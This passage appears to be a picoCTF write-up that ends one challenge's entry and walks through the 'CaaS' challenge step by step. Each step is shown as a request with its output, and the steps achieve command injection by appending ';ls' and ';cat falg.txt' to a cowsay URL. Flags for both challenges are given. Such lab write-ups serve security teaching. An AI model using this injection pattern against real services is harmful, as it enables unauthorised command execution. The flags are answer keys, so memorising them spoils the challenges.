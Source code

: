 #### Reference
https://josephkimiri.github.io/posts/matchtheregex/

picoCTF{succ3ssfully_matchtheregex_c64c9546}

### CaaS 
Description \
Now presenting cowsay as a service
1. Open the link ans see
```
Cowsay as a Service
Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}
```
2. Paste the URL
```
https://caas.mars.picoctf.net/cowsay/{message}

 ___________
< {message} >
 -----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

3. Use `;` to seperate and inject commands
```
https://caas.mars.picoctf.net/cowsay/whatever;ls

 __________
< whatever >
 ----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
4. Show the `falg.txt` content to get the flag
```
https://caas.mars.picoctf.net/cowsay/whatever;cat%20falg.txt
```

picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
